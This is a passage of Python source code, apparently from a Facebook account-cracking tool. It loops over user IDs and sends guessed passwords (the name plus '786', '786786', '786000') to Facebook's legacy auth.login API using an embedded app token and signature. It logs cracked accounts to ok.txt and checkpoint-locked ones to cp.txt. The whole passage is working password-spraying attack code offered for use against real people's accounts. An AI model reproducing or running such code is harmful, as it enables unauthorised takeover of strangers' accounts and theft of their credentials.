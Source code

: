 		                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass3+"\x1b[1;91m | \x1b[1;97m"+name)
		                        cp=open("cp.txt","a")
		                        cp.write(uid+" | "+pass3+"\n")
		                        cp.close()
		                        cps.append(uid)
		                    else:
		                        if 'access_token' in d:
		                            print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass3+" | "+name)
		                            ok=open("ok.txt","a")
		                            ok.write(uid+" | "+pass3+"\n")
		                            ok.close()
		                            oks.append(uid)
		                        else:
		                            pass4=name+"786"
		                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                            d=json.loads(q)
		                            if 'www.facebook.com' in d['error_msg']:
		                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass4+"\x1b[1;91m | \x1b[1;97m"+name)
		                                cp=open("cp.txt","a")
		                                cp.write(uid+" | "+pass4+"\n")
		                                cp.close()
		                                cps.append(uid)
		                            else:
		                                if 'access_token' in d:
		                                    print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass4+" | "+name)
		                                    ok=open("ok.txt","a")
		                                    ok.write(uid+" | "+pass4+"\n")
		                                    ok.close()
		                                    oks.append(uid)
		                                else:
		                                    pass5="786786"
		                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                    d=json.loads(q)
		                                    if 'www.facebook.com' in d['error_msg']:
		                                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass5+"\x1b[1;91m | \x1b[1;97m"+name)
		                                        cp=open("cp.txt","a")
		                                        cp.write(uid+" | "+pass5+"\n")
		                                        cp.close()
		                                        cps.append(uid)
		                                    else:
		                                        if 'access_token' in d:
		                                            print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass5+" | "+name)
		                                            ok=open("ok.txt","a")
		                                            ok.write(uid+" | "+pass5+"\n")
		                                            ok.close()
		                                            oks.append(uid)
		                                        else:
		                                            pass6="786000"
		                                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                                            d=json.loads(q)
		                                            if 'www.facebook.com' in d['error_msg']: